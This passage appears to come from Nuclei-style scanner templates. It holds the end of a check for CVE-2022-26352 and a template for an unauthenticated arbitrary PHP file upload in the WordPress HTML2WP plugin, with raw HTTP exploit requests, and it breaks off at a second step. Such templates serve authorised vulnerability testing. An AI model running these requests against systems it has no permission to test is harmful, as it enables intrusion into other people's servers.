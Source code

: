 ```
GET /{{randstr}}.jsp HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "CVE-2022-26352")
  2. status_code_2 == 200
- condition - and

---

# WordPress HTML2WP \<=1.0.0 - Arbitrary File Upload

## Description

- WordPress HTML2WP plugin through 1.0.0 contains an arbitrary file upload vulnerability. The plugin does not perform authorization and CSRF checks when importing files and does not validate them. As a result, an attacker can upload arbitrary files on the remote server.

- severity - critical
- tags - wp-plugin,wp,fileupload,unauth,wpscan,cve2022,wordpress,intrusive,cve,html2wp

## Requests

### Step - 1

```
POST /wp-admin/admin.php?page=html2wp-settings HTTP/1.1
Host: {{Hostname}}
Content-Length: 253
Content-Type: multipart/form-data; boundary=---------------------------7816508136577551742878603990
Connection: close

-----------------------------7816508136577551742878603990
Content-Disposition: form-data; name="local_importing[]"; filename="{{randstr}}.php"
Content-Type: text/html

<?php

echo "File Upload success";

-----------------------------7816508136577551742878603990--

```

### Step - 2
